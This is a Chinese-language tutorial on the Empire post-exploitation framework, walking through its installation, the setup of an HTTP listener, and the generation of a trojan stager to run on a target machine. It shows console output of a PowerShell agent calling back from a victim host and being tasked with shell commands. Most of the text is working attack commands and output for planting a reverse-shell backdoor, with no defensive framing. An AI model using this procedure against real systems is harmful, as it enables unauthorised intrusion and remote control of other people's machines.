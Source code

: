 ```yaml
---
以前就听说过这个工具，是一个后渗透神器
---
```

# 简单介绍一个生成木马建立监听的过程
首先安装,我在用的是2.5版本的，大概在2.0之后的版本和之前的命令就不太一样了，现在网上很多教程都是1.x的就导致我学习的时候走了很多弯路
```
# kali clone项目到本地
git clone https://github.com/EmpireProject/Empire.git
# 安装
sudo ./Empire/setup/indtall.sh
# 可能要输入一个什么密码，直接回车就可以，全部执行完成后就算完成了，需要的话还可以把./Empire/empire添加到系统命令中
```

# 介绍 empire主要分为三个部分，
- module是一些payload，可以通过这个模块生成各种需要的后门之类的
- listeners监听器，几种类型
- agents管理一些反弹到的shell或者是代理之类的

# 简单使用过程
## 配置监听
```
# 查看帮助信息
help

# 进入监听模式，并查看当前的监听
listeners
# 此时提示符会加上listener字样 第一次会提示没有设置监听

# 配置一个监听
uselistener http 	# 使用http监听，还有很多其他形式的，
info			# 查看需要配置的信息，类似show options
set 			# set命令用来配置参数，格式set 选项 值,注意配置完成后并没有立即生效
execute			# 使set命令生效，同时启动监听器
back			# 退出监听配置

# 再次查看监听
listeners
# 配置监听要注意任何两个监听的Name和Port不能相同
kill +Name		# 删除监听
```
## 生成木马
注意要先建立监听才能继续生成木马，因为木马需要反弹shell的地址和端口
```
# 退回模式
listeners

# 可以使用launcher和usestager两种方法生成木马，launcher生成文本形式的，usestager生成文件形式的（暂时觉得是这样的，2019.5.3）

launcher +语言 +监听器Name
# 直接回显想要的代码

usestager +Empire stager
# 需要set设置监听器等相关的参数才可以继续
execute			# set生效，生成木马文件

# 到目标机器上执行生成的文件，或命令

```

# 结果
如果一切正常的话监听机有回显如下
```
[*] Sending POWERSHELL stager (stage 1) to 10.203.87.61
[*] New agent NCU84961 checked in
[+] Initial agent NCU84961 from 10.203.87.61 now active (Slack)
[*] Sending agent (stage 2) to NCU84961 at 10.203.87.61

# 会显示被攻击级器的IP

# 使用agents，查看代理或者目标
agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 NCU84961 ps 192.168.11.1    DESKTOP-S8B7MSP   DESKTOP-S8B7MSP\R-web   powershell         1968   5/0.0    2019-05-03 17:59:53

连接目标interact NCU84961
(Empire: NCU84961) > dir
[*] Tasked NCU84961 to run TASK_SHELL
[*] Agent NCU84961 tasked with task ID 1
(Empire: NCU84961) > [*] Agent NCU84961 returned results.

```
